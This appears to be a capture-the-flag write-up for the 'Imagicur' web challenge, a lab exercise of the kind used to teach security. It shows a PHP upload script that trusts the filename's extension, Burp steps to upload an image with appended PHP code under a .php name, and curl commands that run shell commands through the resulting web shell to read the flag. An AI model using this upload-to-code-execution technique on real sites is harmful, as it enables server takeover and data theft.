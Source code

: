 ![Imagicur (150 pts)](./screenshots/Imagicur.png)
---
## CHALLENGE INFO
- __CHALLENGE LINK__: https://imagicur.tghack.no/
- __LANDING PAGE__:

  ![homepage](./screenshots/Imagicur_home.png)

  - Page Source:
    ```html
    <html>
    <body>

    <form action="upload.php" method="post" enctype="multipart/form-data">
        Select image to upload:
        <input type="file" name="fileToUpload" id="fileToUpload">
        <input type="submit" value="Upload Image" name="submit">
    </form>
 
    </body>
    </html>
    ```
- __ASSUMED OBJECTIVE__: Exploit a vulnerability in __*upload.php*__
---

## Step 1 : Examine the given source code for __*upload.php*__

- __*upload.php*__
  ```PHP
  <?php
  $target_dir = "uploads/";
  $uplFilename = basename($_FILES["fileToUpload"]["name"]);
  $imageFileType = strtolower(pathinfo($uplFilename,PATHINFO_EXTENSION));
  $filename = uniqid() . ".$imageFileType";
  $target_file = $target_dir . $filename;
  $uploadOk = 1;
  // Check if image file is a actual image or fake image
  if(isset($_POST["submit"])) {
      $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
      if($check !== false) {
          echo "File is an image - " . $check["mime"] . ".";
          $uploadOk = 1;
      } else {
          echo "File is not an image.";
          $uploadOk = 0;
      }
  }

  if($uploadOk == 0) {
	  echo "Failed upload :( Is it a valid image file?";
  } else {
	  move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
	  echo "File available at <a href='$target_file'>$target_file</a>";
  }

  ?>
  ```
  __Notes:__
  - __PATHINFO_EXTENSION__ takes the last given file extension
    - __double extensions__ and __null byte injection__ won't work
  - The __file extension__ of the uploaded file is __appended__ and saved to a __new filename__
  - The uploaded file __needs__ to be an image
  - Successfully uploaded files are save in the __uploads/__ directory

---

## Step 2 : Create a working payload

1. Upload an image and intercept the request using __Burp__

   ![upload](./screenshots/Imagicur_upload.png)

2. Pass the request to __Burp *repeater*__

   ![upload](./screenshots/Imagicur_upload_1.png)

   __Note__:
   - The image was succesfully uploaded.

3. Edit the *request* to contain RCE (Remote Code Execution)
   1. Change the extension of the image to __php__:
      ```
      -----------------------------payload
      Content-Disposition: form-data; name="fileToUpload"; filename="imagicur_payload.php"
      Content-Type: image/png
      ```
   2. Append __PHP code__ at the end of the image data
      
      ![RCE code](./screenshots/Imagicur_upload_2.png)

      __Note__:
      - The file was uploaded with a __*.php*__ extension.

---

## Step 3 : Extract the flag

   ```sh
   curl -d "cmd=ls -lah ../" -G -o- https://imagicur.tghack.no/uploads/5cb9cb05189eb.php
   # ...
   # drwxr-xr-x 1 root     root     4.0K Apr 17 12:53 .
   # drwxr-xr-x 1 root     root     4.0K Apr 17 12:53 ..
   # -rw-r--r-- 1 root     root       35 Apr 16 07:09 flag.txt
   # -rw-r--r-- 1 root     root      262 Apr 16 07:09 index.php
   # -rw-r--r-- 1 root     root      827 Apr 16 07:09 upload.php
   # drwxr-xr-x 1 www-data www-data  20K Apr 19 13:31 uploads

   curl -d "cmd=cat ../flag.txt" -G -o- https://imagicur.tghack.no/uploads/5cb9cb05189eb.php
   # TG19{phony_php_images_can_b_scary}
   ```
---

## FLAG : __TG19{phony_php_images_can_b_scary}__